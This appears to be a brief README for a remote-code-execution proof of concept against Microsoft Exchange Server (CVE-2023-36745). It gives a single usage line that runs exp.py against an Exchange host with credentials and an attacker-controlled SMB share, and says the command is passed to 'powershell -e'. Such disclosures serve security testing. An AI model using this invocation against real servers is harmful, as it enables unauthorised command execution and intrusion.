 # CVE-2023-36745
Microsoft Exchange Server CVE-2023-36745 RCE PoC.   
Example: 
```
python3 exp.py -H exchange.webdxg.com -u webdxg.com\dddai -p 4IDF7LAU -s \\192.168.237.131\Shares\ -c calc.exe
```
Command will be passed to `powershell -e`.
